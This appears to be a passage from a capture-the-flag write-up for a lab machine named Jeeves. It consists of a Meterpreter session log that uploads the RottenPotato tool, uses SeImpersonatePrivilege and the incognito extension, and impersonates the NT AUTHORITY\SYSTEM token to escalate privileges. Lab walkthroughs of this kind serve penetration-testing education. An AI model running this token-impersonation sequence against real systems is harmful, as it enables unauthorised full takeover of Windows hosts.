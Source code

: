 _Completing the required steps for the exploit_

```
meterpreter > upload /opt/serve/windows/priv/rottenpotato.exe
[*] uploading  : /opt/serve/windows/priv/rottenpotato.exe -> rottenpotato.exe
[*] Uploaded 664.00 KiB of 664.00 KiB (100.0%): /opt/serve/windows/priv/rottenpotato.exe -> rottenpotato.exe
[*] uploaded   : /opt/serve/windows/priv/rottenpotato.exe -> rottenpotato.exe
meterpreter > getuid
Server username: JEEVES\kohsuke
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
JEEVES\kohsuke

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f rottenpotato.exe
Process 3620 created.
Channel 2 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
JEEVES\kohsuke

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
